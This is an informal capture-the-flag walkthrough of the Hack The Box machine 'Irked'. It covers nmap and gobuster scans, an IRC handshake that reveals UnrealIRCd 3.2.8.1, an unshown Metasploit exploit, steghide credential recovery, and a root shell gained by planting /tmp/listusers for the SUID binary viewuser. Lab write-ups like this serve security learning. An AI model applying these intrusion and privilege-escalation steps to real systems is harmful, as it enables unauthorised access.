

Irked is a pretty simple and straight-forward box which requires basic enumeration skills. It shows the need to scan all ports on machines and to investigate any out of the place binaries found while enumerating a system.

---

# Enumeration

IP Address : 10.129.1.20

### Nmap Scan :

```jsx
nmap -sCV -T4 10.129.1.20  
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-11 14:02 EST
Nmap scan report for 10.129.1.20
Host is up (0.27s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43831/tcp6  status
|   100024  1          46291/udp   status
|   100024  1          48106/tcp   status
|_  100024  1          60232/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Initial Access

### Gobuster

```jsx
gobuster dir -u http://irked.htb/  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt 
```

Something sintersting is that port 111 is open , which is unusual in the boxes . it shares us that RPC is open on the machine 

After gaining some info about that , we get to know the real funcvtion of port 111

Port 111 is dedicated to the Remote Procedure Call (RPC) portmapper service, which allows RPC clients to discover what ports RPC services are available.

SO the Wesbite Also says that IRC is running 



IRC is Internet Relay chat

Port 8067 is 0pen 

 


so the protocol is UnrealIRCD and we have to llok what it does and what is the case 

[IRC ](https://www.notion.so/IRC-304fa1e5777980cd99a2c32106c270ac?pvs=21)

So we try to talk  to the IRC server: 

```jsx
Command : 

PASS yash
NICK yash
USER yash pleasesubscibe andinstall :yash
 
```


We get the Server verion that is very crucial 

### Version : Unreal 3.2.8.1

We got the shell from using this exploit in meterpreter 


But we can read the user.txt 

After Searching for the conclusion we got the .backup file which has a hint 

The hind is that we have steganography in the image 


SO basically this is a type of password with the Steg hide we will crack it and ge the real creds for the use 

## So the Answer of why i Couldnt read the user.txt is because i was not the auhor djmardov, and after the ssh i was the user .

Its all about the permisions 

Ater Not Finding anything we get to the Peass and Enum 

we use LinEnum 

### NOTE : If we are downloading LinEnum from the Server , and it is denying then we have to get to the /dev/shm dierctory becsue it is the temporary directory

# Priv Esc

This File was find by the Lin Enum i

I didn't get the Lin Enum Myself  but the video i see got the file. 

and In that we get this binary that has SUID permissions 


By Command view user we can run and the output is 

```jsx
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
djmardov@irked:/$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2026-02-11 14:00 (:0)
djmardov pts/1        2026-02-11 15:27 (10.10.14.108)
sh: 1: /tmp/listusers: not found

```

Since  viewuser is a binary or library we can user ltrace or strace to open it and see the inner 

After using ltrace 

```jsx
ltrace ./viewuser 
__libc_start_main(["./viewuser"] <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                                                 = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                                                 = 37
system("who"kali     seat0        2026-02-11 13:47 (:0)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                      = 0
setuid(0)                                                                                                                   = 0
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                      = 32512
+++ exited (status 0) +++

```

So the main path was the view user , in the viewuser we see that when it execute4s it runs listusers file as a root and whatever in the liestuser is there it will execute .

there was not list user file in the tmp folder 

- We create the listuser file
- we put the command in the file

```jsx
djmardov@irked:/tmp$ echo '#/bin/bash' > listusers
djmardov@irked:/tmp$ echo '/bin/bash' >> listusers

```

After Executing the view user we got the root flag 


# Conclusion

[Conclusion ](https://www.notion.so/Conclusion-304fa1e577798030a868f33ecedf97df?pvs=21)

- Always look for the SUID Binaries
- Look for the Unusual names or made up names such as this listuser , viewsuser
- check the binaries permission
